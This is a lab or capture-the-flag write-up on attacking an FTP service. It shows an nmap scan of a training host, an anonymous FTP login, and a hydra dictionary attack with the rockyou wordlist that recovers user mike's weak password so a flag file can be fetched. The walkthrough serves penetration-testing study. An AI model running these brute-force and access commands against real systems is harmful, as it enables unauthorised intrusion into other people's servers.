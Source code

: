 # Network Services FTP

## Enumerating FTP

Always start with a nmap scan:

````
nmap -sV -A 10.10.189.117
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 23:55 CET
Nmap scan report for 10.10.189.117
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.205.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.35 seconds
````

You can see that **2 ports** are open. The **ftp port is 21**. You also can see that the **ftp variant vsFTPd** is used.

The nmap says that ftp anonymous login is allowed so we try it:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
````

Now we can list the FTP directory and we see the **file PUBLIC_NOTICE.txt**.
Let us get the file via *'get PUBLIC_NOTICE.txt -'*.
The content of the file contains the probably **username mike**.

## Exploiting FTP

Lets dictionary attack the password of mice with hydra:

````
hydra -t 8 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.189.117 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-19 00:12:11
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://10.10.189.117:21/
[21][ftp] host: 10.10.189.117   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-19 00:12:27
````

Hydra got the **password 'password'** for the user mike.

Lets connect and get the ftp.txt with the flag:

````
ftp 10.10.189.117
Connected to 10.10.189.117.
220 Welcome to the administrator FTP service.
Name (10.10.189.117:root): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get ftp.txt -
````